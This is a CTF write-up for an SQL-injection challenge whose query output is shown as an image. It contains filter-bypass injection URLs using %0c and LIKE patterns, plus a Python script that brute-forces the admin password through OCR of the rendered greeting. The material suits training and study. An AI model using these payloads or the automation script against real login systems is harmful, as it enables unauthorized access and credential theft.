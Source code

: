 # sql_auth

This is one of the best challenges I have made so far for CTFs based on SQL injections. This challenge appeared ***_vmware ctf_*** conducted as a part of _InCTF national finals_ and also in _internal ctf_ we had in our team.

Source of the challenge: Coming soon...

***Dependencies***
- imgkit
- PIL
- pytesseract

The main objective of the challenge is not to bypass the SQL but to read the outcome of the injection we've made.

I've made the challenge a bit different for regular SQL injection challenges we find in CTFs as I got bored cracking the traditional SQL challenges.

Once the query is executed the result of the query is not reflected into the HTML but it is written into an image which will be displayed as a greeting on the page.

So, to solve the challenge we need to read the content of the greeting image. _pytesseract_ (Python-tesseract) is an optical character recognition (OCR) tool for python. That is, it will recognize and “read” the text embedded in images. To repeatedly make a query and read the image we can use _imgkit_ which is a Python 2 and 3 wrapper for wkhtmltoimage utility to convert HTML to IMG using Webkit and to work with pytesseract we also need _PIL_ which is a python imaging library.

***SOLVING THE CHALLENGE***

```PHP
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>3) exit("No No");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit("NoNo");
```

On analyzing this code we can understand that we can't use space, tabs, newlines, ```%0c``` etc.
But we can use %0c and %0b as alternatives

So, bypassing the space :
```
url/?bypas=%0c
```
![sql](img/CTF/sqlauth/sqlauth0.png)

Now dumping the admin password which is quite easy....

```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'%');%00'
```

![sql](img/CTF/sqlauth/sqlauth1.png)

```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'2%');%00'
```

![sql](img/CTF/sqlauth/sqlauth2.png)

This will greet us with a welcome admin. Now, all we have to do is automate the process （^ - ^）

```python
import imgkit
from PIL import Image, ImageDraw, ImageFont
import pytesseract
pay="1234567890"
passwd=""
url = 'http://url/this_is_the_sql.php?bypass=&pass=\'||(pwlike\''
while(1):
    corr=0
    for j in pay:
        query=url+passwd+j+'%\')---'
        print(query)
        imgkit.from_url(query, 'out.png')
        img=Image.open("out.png")
        text = pytesseract.image_to_string(img,lang='eng')
        if "Welcome admin" in text:
            passwd=passwd+j
            print(passwd)
            corr+=1
            break
    if corr==0:
            break
print(passwd)
```
```
http://url/this_is_the_sql.php?pass=2387522
```
Fake flag :
```flag{chs_is_the_king}```